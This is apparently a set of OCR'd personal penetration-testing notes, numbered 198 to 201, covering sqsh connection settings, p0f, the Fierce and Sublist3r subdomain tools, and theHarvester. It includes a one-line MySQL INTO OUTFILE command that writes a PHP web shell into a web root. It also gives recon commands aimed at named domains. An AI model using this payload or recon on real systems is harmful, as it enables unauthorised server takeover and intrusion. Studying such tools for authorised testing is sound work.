 


Define username and passwords  @~/.sqshrc
\set username=sa
\set password=password
\set style=vert


Connect to the server
sqsh -S MyServer


mysql write file to server
select "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "C:\xampp\htdocs\test"






==========================================
198
p0f


passive scanner analyzing network traffic with the intent of identifying the active operating system


===========================================
199


Fierece
reconnaissnace tool written in Pertl to locate ip space and hostnames using dns


Fierece -dns hackingturorials.org


The first thing that Fierce does it locating the name servers for the given domain. Next it tries to perform a zone transfer on every name server, checks for a wildcard DNS record and finally brute forces subdomains using an internal wordlist. Once the scan is finished Fierce will show the found subdomains at the bottom of the output. By default, Fierce uses its own wordlist but you can also use your own wordlist by specifying it in the wordlist option as follows:
fierce -dns hackingtutorials.org –wordlist [path to wordlist]




==========================================
200
subkist3r


python tool
enumerate subdomains using data from publicly available resources.


uses popular search engines such as google, bing, and yaho to discover subdomains for a given domain.


sublist3r -d estartasolutions.com
=========================================
201
theharvester
